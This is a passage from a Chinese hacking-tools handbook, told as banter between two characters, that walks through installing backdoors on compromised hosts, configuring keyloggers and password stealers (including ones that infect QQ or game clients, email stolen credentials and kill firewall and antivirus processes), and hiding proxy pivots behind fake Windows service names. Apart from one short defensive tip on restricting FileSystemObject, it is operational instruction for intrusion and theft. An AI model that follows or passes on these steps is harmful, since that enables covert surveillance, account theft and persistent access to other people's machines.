Email: refdom@263.net
M:\TestProjects\ResumeTelnet\Debug\ResumeTelnet.exe

Usage: ResumeTelnet.exe \\server username password
*******************************************************
Connecting \\192.168.21.131...Successfully!
Stopping telnet service...
Telnet service is stopped successfully!
BINGLE!!!
The config of remote telnet server is resumed!
Disconnecting server...Successfully!
```

好了，这样就成功了。

榕哥：“像这样直接利用操作系统的功能来实现后门功能的工具就是最基本的后门工具。下面再看一个。”

## 6.1.3 RMINSTALLER

上面提到使用 TELNET 后门必须要先获得管理员密码和帐号，同时服务器开放 IPC$ 共享。但是有时由于某些原因可能会出现如下情况：入侵者可以上传文件到肉鸡中去，但是可能 IPC$ 被禁止了。由于 Remotenc 这个后门是需要 IPC$ 向远程复制文件的，这会导致安装 Remotenc 后门的失败。但是使用这个程序——rminstaller.exe，只要你可以上传文件到肉鸡中去，你就可以安装 Remotenc 后门，无论 IPC$ 是否开放。使用时要将文件全部复制在肉鸡中同一个目录中，最好就是在 system32 目录了，如图 6-1-4 所示。


用法非常简单，你要将 rminstaller.exe、instsrv.exe、remotenc.exe 复制到肉鸡中去，然后在命令行中执行：

```text
rminstaller.exe "服务名字" remotenc.exe 端口 密码
```

这里的“服务名字”，最好用引号引住，因为这样你的服务名字中间是可以有空格的。remotenc.exe 这个文件你可以改名，但改名后，你需要更正你的安装语法，例如你将 remotenc.exe 改名为 abc.exe，那么安装的语法就是这样了：

```text
rminstaller.exe "服务器名字" abc.exe 端口 密码
```

下面就给大家两个例子参考一下：

- 1. rminstaller.exe "Windows Killer Service" remotenc.exe 1234 password
- 2. rminstaller.exe "Windows Remotenc Service" abc.exe 1234 pass

这里因为“remotenc.exe”被改名为“abc.exe”了，所以你要在写时输入“abc.exe”，而不是“remotenc.exe”。

> 格子提示：如果 Remotenc 已在一个肉鸡安装了，再用这个安装的话，原来的设置就会被新安装的这个所代替。程序会先检测你定义的服务名字是否已被使用，如果已被使用的话会自动退出安装的，所以在安装时要小心选择服务名字。

好了，关于后门工具我们就说这么多，这里说的都是流行的后门。不过流行的东西寿命也不长，因为会被查杀的，呵呵。

## 6.2 另类后门工具

这里介绍两款非常规的后门工具，很有特色。奇门兵器虽然难练，但是一旦练成，威力自然不小。

### 6.2.1 ASPMM

“海洋顶端网”木马，Windows 环境下永远不会被查杀的木马，因为它是用 ASP 做的。也是一套 ASP 在线极好的网页编辑软件，支持在线更改、编辑、删除任意文本文件，同时最重要的是解决了无组件 ASP 上传，完全不须注册组件！


你就可以同时上传多个不同类型文件，用它可以轻轻松松在肉鸡上建立自己的个人主页，它的组成如图 6-2-1 所示。

程序的原始密码为“www.haiyang.wzr.net”，你可以在 index.asp 第三行中更改自设定，如图 6-2-2 所示。


6-2-2 更改密码

程序使用时你需要打开 Cookies，程序运行环境为：IIS3/IIS4/IIS5+ 中英文 NT Server+WIN2K OR PWS4+ 中英文 WIN95/WIN98。其中，文件上传在 WINNT 上没有测试。

服务器预防“海洋顶端网”ASP 木马的办法如下：

限制用户使用 FileSystemObject 对象。一种极端的做法是完全反注册掉提供 FileSystemObject 对象的那个组件，也就是 Scrrun.dll。具体的方法如下：

在 MS-DOS 状态下面键入：

```text
Regsvr32 /u c:\windows\system\scrrun.dll
```

> 注意：在实际操作的时候要更改成为你本地的实际路径。

但是，显而易见，如果这样做，那么包括站点系统管理员在内的任何人都将不可以使用 FileSystemObject 对象了，这其实并不是站点管理员想要得到的结果，毕竟我们使用这个对象可以实现方便的在线站台管理，如果连系统管理员都没法使用了，那就得不偿失了。但是不禁止这个危险的对象又会给自己的站点带来安全漏洞，那么有没有两全其美的方法呢？有！具体方法如下：

我们可以做到禁止他人非法使用 FileSystemObject 对象，但是我们自己仍然可以使用这个对象。方法如下：

查找注册表中 HKEY_CLASSES_ROOT\Scripting.FileSystemObject 键值，将其更改成为你想要的字符串（右键→“重命名”），比如更改成为：HKEY_CLASSES_ROOT\Scripting.FileSystemObject2。这样，在 ASP 就必须这样引用这个对象了：

```text
Set fso = CreateObject("Scripting.FileSystemObject2")
```

呵呵，只要你不告诉别人这个更改过的对象名称，其他人是无法使用 FileSystemObject 对象的。这样，作为站点管理者，我们就杜绝了他人非法使用 FileSystemObject 对象，而我们自己仍然可以使用这个对象，来方便地实现网站的在线管理等等功能。

## 6.2.2 BACKDOOR

阿瓜：“呵呵，名字就是‘后门’，真有意思。”

榕哥：“你看到它的组成文件了吗？从它的程序包中可以看到有一个文件叫‘server’，很容易让人认为它是一个木马。不过它确实是一个后门程序。”

阿瓜：“分那么清楚有什么用啊，只要用起来好用就成呗！”

榕哥：“可以啊，阿瓜，有思想，有内涵！”

本程序是利用管理员调用任意可执行文件时执行我们需要的程序、批处理或命令，以达到后门的效果，例如：可以改帐号、放木马或放硬盘炸弹。它由四个文件组成，如图 6-2-3 所示。


当管理员执行你指定的“被绑定的程序”时，会根据你设定的对话框欺骗他运行你的程序。当你在 cdu.exe 中点击“写入配置”后，此后门就开始工作；如果你以后不想再进行配置，可以删掉 cdu.exe，但必须保持 cdu.ini 和 server.exe 的存在。


# 第六章 别有洞天——后门工具的秘密

下面看看使用方法：如图 6-2-4 所示，CDU.exe 为配置文件，“被绑定的程序”中可以输入管理员可能调用的程序或常会使用的程序（没有在当前的进程中），如：notepad.exe（记事本）、regedit.exe（注册表编辑器）等；“绑定的程序”可以输入你想执行的程序、批处理或命令等；cdu.ini 为数据文件（不能改文件名）；server.exe 为后门核心文件及管理员欺骗程序（不能改文件名）。


- 1. 使用此工具时，请将这三个文件 COPY 到以下路径中：如 winnt、system32 等。
- 2. 在 cdu.exe 文件中输入的被绑定程序不要加路径，同时必须要有扩展名。
- 3. 不要将 cdu.ini 和 server.exe 的文件重命名，否则会出错。
- 4. 千万不要自己运行 server.exe 文件，否则后门将失效。

> 阿瓜：“后门工具果真也有不少好玩的东西在里面啊！还真得好好研究研究。”

榕哥：“你要是想升级进阶，成为高手，后门的秘密你是必须要弄明白的。”

阿瓜：“呵呵，有道理，呵呵，要弄明白，呵呵……”

榕哥大怒：“你又傻笑——真气死我了！”


> 阿瓜悟道：黑客入侵就是利用公开的后门（漏洞）来进行的，而入侵之后留下后门是为了下次入侵的方便。所以说，后门的秘密实际上就是秘密的后门。

# 第七章 脉脉含情——键盘记录程序的温柔

阿瓜对键盘记录工具也是情有独钟，因为这种工具简单易用，而且不用动什么脑筋就可以轻松得到各种密码和其他敏感信息，是盗取密码、监视别人的绝佳工具。但是榕哥说过这种东西不可多用，更不可滥用，因为这类工具太容易让人变得懒惰。榕哥觉得，如果阿瓜变得懒惰了，那么他实在是无可救药了，因为这样一来，阿瓜连仅有的一个优点——勤奋都失去了。

阿瓜虽然笨，但是对于榕哥的指点总是能理解的，所以他在研究了几十个键盘记录工具后，最终决定：如果没有需要的话，绝不用这类软件。

榕哥听到阿瓜如此说，唯有摇头叹气。

阿瓜和榕哥讨论黑客兵器谱，谈来谈去，终于谈到键盘记录工具，阿瓜精神不由得亢奋起来，一高兴连买数块香甜可口的巧克力，榕哥也乐得好口福，先不管别的，吃了再说。

## 7.1 系统监视类

这类软件实现的功能侧重于系统监视，所以范围覆盖较广，电脑使用者的一举一动都瞒不过它那充满温柔的眼睛。

### 7.1.1 Win-Spy Windows Monitor

这是一个功能强大的系统安全监测工具！它可以在系统后台把任何使用者的键盘动作和屏幕显示的画面完整地记录下来。而这一切都是在后台秘密进行的，不用担心会被别人发现，而且还具有对指定的目录进行隐藏、自动 Email 发送等功能。

程序安装完毕后，重新启动机器，此程序即开始正常工作。按下“SHIFT+F12”键开启登录窗口，如图 7-1-1 所示。

在“Username”中填入安装程序时设定的用户名，在“Password”中填入相应的密码。然后按 OK，进入主控界面，如图 7-1-2 所示。


在“Tools”菜单中选择“Options”选项，如图 7-1-3 所示。

进入设置对话框，如图 7-1-4 所示。


这里包括四个面板。先看第一个“Screen Shots”面板，在这里设置关于屏幕捕捉的选项。其中“Disable Screen Capture”是“禁止屏幕捕捉”的意思，若选中则屏幕捕捉功能失效；

- “Disable Idle Detect”是“禁止空闲侦测”的意思，选中后，则对屏幕画面的停留不敏感；
- “Screen Capture Interval”是屏幕捕获的时间间隔，默认为 30 秒；
- “Screen Capture Quality”是屏幕质量设定，默认为 65，最大可以调到 90，最小可以调到 20。

设定后，点击“APPLY”设置。

再看第二个“Folder Location”面板，如图 7-1-5 所示。


这部分是设置捕捉的文件存放位置的。“Screen Capture Folder”是屏幕捕获文件放置的位置；

- “Archive Folder”是存档存放的位置；
- “KeyLog Folder”是键盘记录文件存放的位置；
- “KeyLog Filename”是存放的文件名。

上面的位置可以设定得隐秘一点。设定完后，点击“Apply”，应用设置。再看第三个“Remote Email”面板，如图 7-1-6 所示。


7-1-6 Email 设置

在这部分可以进行关于邮件发送的设置。选中“Enable Auto Mail”项，则开启自动邮件发送功能。若选中“Enable KeyWord Alert”，则启动关键词敏感记录。点击“Settings”出现一个关键词设置对话框，在这里可以进行关键词设置，如图 7-1-7 所示。


7-1-7 设置关键词

填写要监测的关键词，例如“pass”，然后按“Add Keyword or Phrase”键，则添加了该词。在“Check KeyWord Every”中进行监测时间的设置。在这里设置好关键词后，当使用者输入关键词时，这个软件就会把相应的键盘输入记录下来，并发送到指定的邮箱。

回到图 7-1-6 中，在“Mail To”后面填写要发送到的邮箱地址。“SMTP server”中填写发送邮件的服务器地址。设置完毕，点“Apply”按钮，应用设置。

最后一个选项是热键设置“Hotkey”对话框，如图 7-1-8 所示。


7-1-8 热键设置

因为这个软件启动后不在系统栏内显示图标，所以需要用热键启动，默认为“SHIFT+F12”，若要改成别的，只需选中该项即可。完成所有上面的设置后，软件开始工作。

点击图 7-1-2 中的“View Keylog”按钮可以查看键盘记录的结果。按“Clear Log File”可以清除键盘记录的结果，如图 7-1-9 所示。


7-1-9 键盘记录结果

> 阿瓜：“怎么都是拼音啊？还好我语文学得好，我能拼出来，嘿嘿。”

榕哥：“要是用五笔打字，你还认得吗？”

阿瓜：“不认得，你呢？”

榕哥：“我……我也不认得——像我这种高手还用得着五笔吗？阿瓜啊，你真是没头脑！”

下图左边箭头所指位置是屏幕截图记录。直接点击就在右边框中出现截图。效果很好，如图 7-1-10 所示。


7-1-10 查看屏幕记录


### 7.1.2 IOpus STARR

阿瓜：“真好啊，仿佛又找回了初恋的感觉。”

榕哥：“你竟然还有初恋？佩服，佩服！”

这个程序可以驻留在后台悄悄地记录计算机的使用情况，可以记录键盘输入、用户名、密码、路径名、访问次数、窗口标题等，还可把有关记录发成 E-mail 给你。程序在安装时会让你选择安装模式，如图 7-1-11 所示。


第一种安装模式是正常安装模式，程序以这种模式安装后，将和正常软件一样工作，并有图标显示。

第二种安装模式是秘密模式，在这种模式下，程序的运行是不可见的，这正是我们要的效果，所以选择第二种安装方式。

另外，在安装过程中会出现如图 7-1-12 的界面。


在这里要选择记录存放的方案，有三种选择。第一种选择是把所有的记录都存放在本机；第二种选择是把记录存放在网络上某些位置；第三种选择是把报告通过 E-mail 发到指定的信箱中。可以根据自己的需要自由设定。

安装完毕弹出如图 7-1-13 所示的设定界面。


7-1-13 iOpus STARR 设置界面

在“Dashboard”对话框中包括三个部分。最上面一部分是控制部分，点击黑色箭头按钮可以启动记录。点击黑色方框按钮停止记录。

中间的部分是设置报告存放位置和报告存放的格式，可以选择 HTML、表格、纯文本、原始记录等格式。最后点“Exit”按钮退出程序。

下面我们来看看“Monitoring”对话框的设置，如图 7-1-14 所示。


7-1-14 监视设置

在这个设置面板里可以设置要监视的内容。其中最上面的“Visual Monitoring”框中是屏幕截图的间隔时间设置。中间的“PC Monitoring”是机器监视选项设置，可以选择监视应用程序（Active Application）、弹出文本（Popup texts）、应用程序路径（Application path）、WINDOWS 类（Window class）、击键和密码（Keystrokes & Passwords），另外还可以设置记录内容重置的间隔时间，默认为 60 分钟。最下面的是因特网监视选项，可以选择监视浏览的网站（WEB）、聊天（CHAT conversation）和美国在线（AOL）。

> 格言闲言：监视美国在线在中国来说是没用的，因为中国没人用美国在线。这个软件是外国人写的，将就着用吧。

现在来到“Settings”其他设置对话框，如图 7-1-15 所示。


7-1-15 其他设置

在第三个面板中是关于其他设置的选项。在“Password Protection”中可以设置密码保护，在“Security”中可以设置一些安全措施。

点击“Email/Network”弹出“文件保存”设置对话框，如图 7-1-16 所示。


7-1-16 设置文件保存

在这个面板中可以调整文件保存的方式，即修改安装过程中的设置。全部设定完毕，点图 7-1-13 中的黑三角箭头“Start”就可以开始记录了。要查看结果点该图下面的“View Report”即可查看。

阿瓜吃了一块巧克力说：“上面介绍的这些都是比较正规的键盘记录软件，下面我们看更刺激的。”

## 7.2 密码窃取型

这类软件功能单一，没别的——就是为了盗取密码，但是相应的也就有一个优点，那就是主题突出——啊啊，还是为了盗取密码，所以程序功能更适合黑客取得密码。

### 7.2.1 血火

这是一个密码盗取类工具，可以记录账号、密码等。程序采用病毒技术，理论上支持 WINDOWS 下所有 PE 格式文件。如：《精灵》、《网金》、QQ、联众、边锋等等。支持远程接收记录。界面如图 7-2-1 所示。

点击设置按钮，出现如图 7-2-2 所示对话框。


在这里可以设置如下项目：

- 1. 本机记录保存位置，例：c:\windows\index.htm（可以自动更新）。
- 2. ftp 服务器，例：ftp.go.163.com
- 3. 用户名，例：xuehuo，这是 FTP 登录名。
- 4. 口令，例：123456

> 阿飞小注：一定要写对，否则出了问题可没人负责，作者说的“呵呵”。

填写这些后，记录的信息就会发送到所填的地址了。

下面选择要感染的程序。例如要记录下 QQ 号和密码，就找到 QQ 的安装目录，如：

```text
D:\Program Files\Tencent
```

然后选定 QQ2000b.exe，单击“打开”就可以了，如图 7-2-3 所示。

一切设定完毕，就等着在邮箱里获取密码就行了。

阿瓜：“这个软件看起来很投缘啊！呵呵。”

榕哥：“那当然了，你俩都是傻瓜型的，当然投缘啦！”


7-2-3 选择要记录的密码文件

### 7.2.2 妖精

这个软件增加了对防火墙及各种故意程序的查杀功能，并改进了一些小的细节，只要使用得当，能截取目前所有的网络软件和游戏的账号和密码。界面如图 7-2-4 所示。


7-2-4 软件的主控界面

软件使用流程如下。

- 第一步，设定监视目标（Set Monitor Objects）。
  在这 6 个栏中按次序填入监控目标，注意大小写，不要带路径，也可以不带后缀名，比如：QQ2000b、Mir 等。
- 第二步，高级设置（Advanced Option）。
  点选图 7-2-4 右边中间的“Advanced Option”按钮，弹出高级设置对话框，如图 7-2-5 所示。

高级设置总的可以被分为三个部分，分别为：Option（普通设置部分）、Hostile process（敌对进程设置部分）；Others（其他设置部分），下面将进行详细介绍：

#### 先看 Option（普通设置部分）

Monitor's filename（监视部分文件名）：运行了生成的客户端后，HIDDUKEL 会在计算机的系统目录内生成一个文件和一个动态连接文件，在这里设置这两个文件的名称。

注意：不要带路径和后缀名。如：hiddukel；注：未注册版本不能更改此项，按默认设置为 hiddukel。


7-2-5 高级设置

Smtp server address（邮件服务器地址）：这里设置 SMTP 服务器地址，邮箱提供商一般会在主页上说明邮件服务器地址，如：smtp.sina.com.cn。如果你不想通过 EMAIL 获取监控结果，请把本项留空。

Email address（邮箱地址）：用来接受监控结果的邮箱地址，如：webmaster@sina.com.cn。

Username（邮箱用户名）：用于需要进行身份认证的邮件发送服务器，一般邮箱提供商会在主页上注明该邮箱是否需要进行身份认证，如果不需要身份认证请把本项留空。

Password（邮箱密码）：参考邮箱地址。

Saving result filename（监控结果储存文件）：把所有的监控结果保存到某个文件内，默认为系统路径下，填写时不要带路径。可以和邮件发送同时使用，不在本机保存监控结果的话请把本项留空。

注：未注册版本不支持本地储存。

Delay time（延迟时间）：设置从监控程序被启动开始计算，几分钟内的所有输入。一般设置为 1~4 分钟，具体情况按经验设置。

Automatic spread（自动传播）：此功能不可用。

### Hostile process（敌对进程设置部分）

Kill at any moment（随时查杀）：在本项中填写需要查杀的进程名，在任何时候，一旦发现该进程，HIDDUKEL 将自动将其结束。填写过程中注意大小写，不需要带任何路径及后缀名。下面的就是进程名，正确的填写分别为：taskmgr、mysqld-nt、regsvc、MSTask、QQ2000b（一般就是可执行文件名）；需要注意的是 WINDOWS95~98 的进程名需要全部大写。

Kill before send mail（发送 EMAIL 前查杀）同上，区别在于只在发送 E-mail 前对指定进程进行查杀。

注：未注册版只支持查杀一个进程。

#### Others（其他设置部分）

Identify words（识别文字）：识别文字将被放置于每封监控信件的最后，通常用来区别信件的来源。

Sendmail for test（是否发送测试信）：选择“yes”的话，在生成客户端的同时，HIDDUKEL 会按照有关邮件的设置发送一封信件，通常用来确认邮件的相关选项是否填写正确。

高级设置完毕后，就可以进行最后一个步骤了。

- 第三步，生成客户端。

点击主界面右上角的“Generate Client”，或按“F7”键则生成了客户端。Hiddukel 在当前目录生成客户端 sprite.exe，该客户端保存了你的所有设置并完全独立，你只要在需要进行监控的计算机上运行 sprite.exe 就可以了。

上面的程序都只能搜集应用程序的密码信息，不能记录浏览器中的密码。下面看一个可以截取 IE 浏览器中输入内容的键盘记录工具。

### 7.2.3 lethief

这个软件的使用界面很简单。填上要截取的字符个数，然后填上接收邮箱的地址（一定要填自己的）。确定，就 OK 了，如图 7-2-6 所示。


7-2-6 lethief

> 阿瓜：“这么简单？是不是太简单了。”

> 榕哥：“是啊，是太简单了，所以功能有限啊！有兴趣自己做一个吧。”

> 阿瓜：“是啊，自己做一个多好啊，不过还是等我研究研究再说吧！”

下面再看一个专门盗取 WIN2K 密码的东西。

> 7-2-7 Win2kpass

使用很简单。运行 PassWordNt.exe 程序，程序提示安装成功，重新启动电脑，就可以得到登录密码。密码保存在 C:\Santuo.txt 中。

## 7.2.5 传奇击键记录

传奇游戏很好玩，下面这个东西就是用来窃取游戏账户和密码的。它可以把包括登录时的 ID 和密码等以击键记录方式完整记录下来，并发送到指定邮箱。针对一些防火墙和杀毒工具，在发送邮件时，会出现警告信息，3.97 版本在发送邮件的同时，会自动关闭一些常用的防火墙和杀毒工具的监控程序。

- 支持的防火墙有：天网防火墙个人版、金山网镖个人版。
- 支持的杀毒监控工具有：金山毒霸实时监控、瑞星实时监控、美萍电脑安全卫士。

阿瓜：“好厉害的东西啊，看来以后玩游戏是要小心了。”

这个软件解压后，包括如下几个程序，如图 7-2-8 所示：

> 7-2-8 传奇击键的程序包

| 文件列表 | 说明 |
|---|---|
| setgame.exe | 通用设置 |
| go.exe | 击键记录端 |
| mswinsck.ocx | 必要控件 |
| Readme.txt | 说明文件 |
| mscent.dt | 自动生成的资料文件（第一次使用没有） |

使用之前先运行 setgame.exe 程序并进行设置，如图 7-2-9 所示。

7-2-9 设置

**各项设置的说明如下：**

- “击键记录文件”：将击键的内容以文本文件的形式保存在本地硬盘中，本项指定所要保存记录文件的详细路径以及文件名，默认值为 C:\gamelog.txt。
- “发送邮箱 SMTP 服务器”：本项指定发送邮件时要用到的发送邮箱的服务器名称。需要注意的是：这个要发送邮件的邮箱必须是无 SMTP 身份验证的，例如：www.21cn.com 的免费邮箱就是这类，它的服务器名为：smtp.21cn.com，一般可以在邮箱的说明处查到这个。
- “发送邮箱”：本项指定发送邮件时要用到的发送邮箱地址。还要强调的是，必须是无身份验证的邮箱，一般可以在邮箱说明处查到这个。例如：http://www.peoplemail.com.cn、www.21cn.com。
- 这些网站提供的免费邮箱可以用，其他的也行。如果你找不到，可以到以上举例的网站申请。
- “接收邮箱”：这项是指用来接收击键记录的邮箱，可以任意。
- “发送主题”：这项可以随意填，加上这项是为了防止被服务器凭主题来封杀信件的发送，不可以为空。
- “发送时间间隔”：这项指定每隔多少时间发送一次邮件。
- “保存方式”：这项分为两个小项。其中“保存在资料文件”是把资料保存在当前文件夹的“mscent.dt”文件中，这样可以将资料文件和侦听端文件一同传送给对方执行，不用再设置了，就可以在对方的机子上顺利工作。“保存在本机”是把资料信息在本机上保存，目标是本地机。

当设置完毕后，信息就自动保存在本机，这时可以执行主击键记录端程序了。当执行主击键记录端之后，所有的本工具的文件都可以删除了，因为工具具有自动拷贝和执行功能。本工具可能在使用一段时间后会失效（可能被杀），也不要奇怪。

当把资料保存在资料文件后，就可以把资料文件和侦听端文件以及必要控件文件一起打包，这样就可在任何机器上工作，不再手动设置了。

阿瓜：“好详细的说明啊！不明白都不行，呵呵，我喜欢。”

榕哥吃完最后一块巧克力，打了一个哈欠，站起身说：“我困了，我要去睡觉了。”说完迈步出门。

阿瓜喊道：“现在才下午 4 点钟啊，这就睡觉，太懒了吧！”

门外传来榕哥渐渐远去的声音：“真正的懒惰不是肉体的懒惰，而是精神的懒惰……”阿瓜若有所思。

> 阿瓜悟道：默默守候，虽无言语，但一腔柔情人件你心。要得到你的密码，有了键盘记录工具的柔情无限，就可高枕无忧啦！

# 第八章 暗渡陈仓——代理工具的诡计

阿瓜记得榕哥曾经说过，代理工具是黑客进阶必须要掌握的一类工具，就像蚕蛹蜕变后，必须要有翅膀才能飞翔，这代理工具就像黑客的翅膀，利用它你可以在网络的天空中任意翱翔，而不会被雷电所伤。

使用代理工具可以使一名黑客从网络上隐身，成为透明人。这样黑客所作所为就会被层层迷雾掩盖住，这时要想找到真正的入侵者，好比在蜀道行走。黑客们也知道蜀道难，所以明修栈道，暗渡陈仓，通过代理工具，神不知，鬼不觉地在一台台电脑间穿梭跳跃，如入无人之境。

说得这么神秘，那么代理到底是什么意思呢？实际上代理就是利用别的电脑做一个转接站来连接其他的电脑，被作为转接站的电脑常被称为“跳板”，利用跳板，在扫描、登录目标主机时，主机监测到的入侵 IP 地址就是跳板的地址了。可以利用多级跳板来入侵，这样要想查出真正的入侵者来真是难比登天了。

代理工具就是用来实现代理功能的工具，利用这些工具黑客们可以轻松搭建起自己的跳板。

## 8.1 代理扫描类

要使用代理服务，首先要找到代理服务器。获得代理服务器有两种方法：一种是直接通过代理扫描工具在网络上寻找免费代理（也可先找到有账号限制的代理服务器然后破解其密码），另一种是把已经入侵成功的主机改造成代理服务器。这一节先介绍第一种方式。

### 8.1.1 代理猎手

这个软件以前涉及过，这是一个专门搜索代理的工具，我们这里以最新版为例，简单回忆一下使用这个软件搜索代理的方法。首先，点击“搜索任务”，在下拉菜单中选择“添加任务”，弹出搜索向导对话框，如图 8-1-1 所示。

图 8-1-1 启动搜索任务

> 阿瓜：“根据我的经验，凡是有向导提示的软件功能都比较强大，而且使用简单。”

> 榕哥：“有道理，因为功能比较复杂，怕使用者不易使用，所以才设计了使用向导。”

这样方便多了。”

阿瓜：“嘿嘿，真爽啊！”

> 榕哥小注：实际上用扫描器也可以实现代理搜索的功能，只不过那些扫描器在这方面没有这个软件专业。

8-1-2 向导之一

如图 8-1-2 所示，搜索任务类型有三种：定时开始搜索、搜索完毕关机、搜索网址范围。我们选择“搜索网址范围”。点“下一步”，如图 8-1-3 所示。

8-1-3 向导之二

点选“选取已定义的范围”，出现图 8-1-4 界面。

8-1-4 选取地址范围

点“打开”按钮，出现如下窗口，如图 8-1-5 所示。

8-1-5 选择地址范围列表文件

我们直接在列表文件中选择我们要使用的文件。这样就可以在列表所示的 IP 范围内进行搜索了。选定的范围如图 8-1-6 所示。

8-1-6 选定范围结果

> 闲人小泽：当然大家可以自己设定范围，不过，这样直接选取较简单，呵呵，简单第一。

在图 8-1-6 中选定一条 IP 范围，然后点击“使用”按钮，弹出如图 8-1-7 所示结果。

8-1-7 选定的地址范围

如果要继续添加其他地址范围，重复上面的步骤就行了。

下一步的设定窗口如图 8-1-8 所示。

8-1-8 向导之三

在这里设定要扫描的代理端口号。点击“添加”按钮，出现端口设定界面，如图 8-1-9 所示。

8-1-9 端口设定

一般来说，SOCKS 代理是最有用的，所以在这里选择“单一端口”+“SOCKS”+“必搜”，确定。

点“完成”，设定结束。点击三角形按钮开始搜索。搜索完毕切换到“搜索结果”选项面板可以查看结果，如图 8-1-10 所示。

8-1-10 开始搜索

该软件的其他功能这里不再详述。

### 8.1.2 MultiProxy

这个软件可以通过定义的代理服务器列表，自动调用其中的代理服务器进行工作，能让你不用总是切换代理服务器，自动帮你选择多个代理服务器中的一个来进行访问。该软件拥有强大的代理调度功能，能测试匿名代理，根据代理服务器的速度进行排序，并按速度优先使用。软件界面如图 8-1-11 所示。

8-1-11 MultiProxy 使用界面

首先在浏览器菜单中选“工具”→“Internet 选项”，进入图 8-1-12 窗口。

8-1-12 设置代理

如果使用拨号上网，则点选“设置”按钮，弹出如下对话框，如图 8-1-13 所示。如上设定后，登录网络；打开 MultiProxy 就可以利用 MultiProxy 的强大代理功能了。如果想进行高级设置，可以点击图 8-1-11 中的选项按钮，进入图 8-1-14 窗口。这里比较有用的设置项是“接受连接所在端口”、“最大同时连接数”、“连接经由”等项。

如果“接受连接所在端口”改变，则前面所述端口号的设置要做相应调整。连接数设置大一些，可同时连接更多代理。

8-1-13 设置代理

8-1-14 选项设置

代理服务器的设置在如下窗口中进行。

8-1-15 代理服务器列表

如图 8-1-15，在右键菜单中可以进行“添加”、“编辑”、“删除”、“测试”等功能的选择。操作方法不再详述。

> 阿瓜小注：这个软件属于代理支持类软件，可以让你在使用过程中不断更换代理服务器。这样你就可以摇身百变了。

阿瓜：“用上面的东东来使用免费代理真不错啊，用免费代理上外国网站也很爽，嘿嘿。”

榕哥：“你小子是不是又到外国网站看乱七八糟的东西了，真不像话，好东西被你这么乱用，这是糟蹋宝贝啊。”

阿瓜：“没有啊，我只不过是随便看看嘛，有什么大惊小怪的。鲁迅先生说过‘要拿来主义’呀，我只是在努力做鲁迅先生的好学生而已。嘿嘿，你不也一样吗？”

榕哥：“这个……嗯，我们不谈这个了。——我们刚才说到哪了，哦，对了，其实比较起来，黑客气质更强的是下面我们要说的这一类代理工具。”

## 8.2 代理跳板类

这类软件实际上是小型的代理服务端。在没有安装代理功能的主机上运行这类软件，就可以把该主机变成一个代理跳板。

在介绍有隐藏功能的代理跳板之前，先看一个正常的代理服务软件，大家可以先了解一下代理的工作原理。

### 8.2.1 WaysOnline 通讯代理

下面是这个软件的使用界面，如图 8-2-1 所示。这个软件是正常的软件，最小化后可以在系统栏显示托盘。

使用 WaysOnline 可以使原本局域网或内部网不能直接使用网络服务的用户在经过互联在线代理之后，就可以实现网上数据传输的通畅，如：可以在内部网 QQ、ICQ 通讯聊天、在线游戏、在线证券交易和各种 BBS 通讯等等。客户端应用如图 8-2-2 所示。

> 阿瓜小注：上面没画出来，当然也可以运行黑客程序。而且，不一定是内部网通过 SocksOnline 做代理，可以灵活应用。

软件的使用方法如下。

第一次运行需按下图 8-2-3 中的“注册”设置账号。

8-2-3 设置账号

先看进行系统设置的方法。

系统服务设置：设置通讯代理服务使用的端口，Socks 代理默认是 1080，由 SocksOnline 提供的 HTTP 代理默认是 8080，若计算机中的服务端口已被占用，则可设置为其他空闲端口使用。若你希望别人也可以用这个 SocksOnline 通讯代理的话，请去掉“只供本机使用”选项，如图 8-2-4 所示。

8-2-4 系统服务设置

用户服务设置：用户可以自己设定额外的代理服务，如收、发互联网 POP3 邮件服务等，具体参照有关案例说明，如图 8-2-5 所示。

8-2-5 用户服务设置

再看进行通讯设置的方法。

HTTP 通讯设置：可以指定上网的 HTTP 代理以及选择相关的通讯服务，一般不需要更改 HTTP 通讯设置。增强通讯模式只适用于部分 HTTP 代理，若代理不支持该项功能而选中的话，会导致无法连接或连接超时。最安全的做法：可到网站下载一个 ChkOnline 的检测工具进行测试，看是否支持，如图 8-2-6 所示。

8-2-6 HTTP 通讯设置

通讯服务选择：提供 SocksOnline 的代理服务器选择，不同的代理服务器可能有不同的代理功能，请根据自己的需要来选择，一般可设置为“自动选择”，如图 8-2-7。

8-2-7 通讯服务选择

SocksOnline 正常启动后，该程序就变成了本地的 Socks Proxy，可以通过 HTTP Proxy 或其他 Proxy 访问 Internet 了。本 Socks Proxy 的地址是 localhost:1080 或 127.0.0.1:1080。

好了，对代理的使用有个初步认识了吧，下面我们进入精华部分。

### 8.2.2 Snake 的代理跳板

这是一个精品代理跳板程序，可以用来在入侵后的主机上架设小巧精致但性能优良的代理跳板。它支持 TCP/UDP 代理，支持多个（最多达到 255）跳板。

以最新版为例，看一下此软件的使用。这个软件可以使用图形界面配置，使用命令行方式安装。先看图形界面方式配置的方法。

软件解压后，可以看到软件包括的文件如图 8-2-8 所示。

其中程序文件为 SkSockServer.exe，以服务方式运行后，不显示任何窗口，以 Socks5 代理服务的方式进行跳板代理服务，默认端口为 1813。SockServerCfg 是配置程序，可以使用此程序对 SkSockServer.exe 的工作方式进行配置。

> 阿庆小注：程序在本地配置好以后，然后把代理服务器程序上传到被入侵主机，然后在主机运行。这样主机就被做成了跳板。

8-2-8 SKSOCKSERVER

运行 SockServerCfg 程序，出现如图 8-2-9 界面：

8-2-9 配置程序

这个代理软件实现隐蔽性的方法就是以 WIN2000 服务的方式潜藏在电脑内，使得系统管理员误以为这是一个正常的服务程序，因而不能发现它的秘密。上图 8-2-9 的界面就是设置服务参数的界面。其中，“名字”指显示给管理员看的假服务名字，可以自己随便写，写得越有迷惑性越成功；“描述”是指显示给管理员看的对应名字的描述，如果管理员看了名字不明白这到底是不是正常服务，那么他通过看你写的极有说服力的描述就“明白”这是一个有用的服务了；“EXE 路径”是指要配置的 SkSockServer.exe 程序所在的位置；“端口”即为连接此跳板的端口，若在此时按“安装”按钮，那么代理服务将安装在本机。

下面是客户连接设置，如图 8-2-10 所示。

在这里可以对此服务端的客户端地址进行限制。将允许访问的 IP 添加，并选上“允许”即可。

SkSockServer 支持多重跳板，多重跳板的设置在图 8-2-11 所示窗口中进行。

8-2-10 客户连接设置

8-2-11 经过的跳板

将从本机到最终代理服务端经过的中间跳板都添加到图 8-2-11 所示的列表内，允许之，并排好秩序，这样就设定完毕了。

> 橙哥闲言：从本地机器连接到远程机器，中间通过安装的代理跳板。对应应用程序而言，相当于普通的 Sock 代理调用，在跳板之间传输的数据是已经被动态加密的。加密种类每次不同。跳板的数目由 1 到 255，不限制。当数目为 0 时，相当于 Socks5 代理服务器。

